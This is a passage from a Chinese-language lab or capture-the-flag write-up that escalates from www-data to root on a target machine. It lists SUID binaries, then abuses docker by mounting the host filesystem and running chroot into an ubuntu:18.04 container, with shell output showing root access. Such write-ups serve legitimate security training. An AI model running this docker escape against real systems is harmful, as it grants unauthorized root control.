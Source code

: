 /usr/bin/docker
/usr/bin/fusermount
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/su
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/at
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/mount
/usr/bin/chsh

```


可以使用docker提权，见[这里](https://gtfobins.github.io/gtfobins/docker/)


使用上面的命令提示没有alpine这个image
```
www-data@ip-10-200-112-33:/home/ubuntu$ /usr/bin/docker run -v /:/mnt --rm -it alpine chroot /mnt sh
<docker run -v /:/mnt --rm -it alpine chroot /mnt sh
Unable to find image 'alpine:latest' locally
/usr/bin/docker: Error response from daemon: Get https://registry-1.docker.io/v2/: net/http: request canceled while waiting for connection (Client.Timeout exceeded while awaiting headers).
See '/usr/bin/docker run --help'.

```

查看靶机拥有的image
```
www-data@ip-10-200-112-33:/home/ubuntu$ docker images
docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
<none>              <none>              cb1b741122e8        18 months ago       995MB
<none>              <none>              b711fc810515        18 months ago       993MB
<none>              <none>              591bb8cd4ef6        18 months ago       993MB
<none>              <none>              88d15ba62bf4        18 months ago       993MB
ubuntu              18.04               56def654ec22        22 months ago       63.2MB
```

有一个18.04版本的ubuntu，提权到root
```
www-data@ip-10-200-112-33:/home/ubuntu$ /usr/bin/docker run -v /:/mnt --rm -it ubuntu:18.04 chroot /mnt sh
< run -v /:/mnt --rm -it ubuntu:18.04 chroot /mnt sh
# id
id
uid=0(root) gid=0(root) groups=0(root)
# whoami
whoami
root
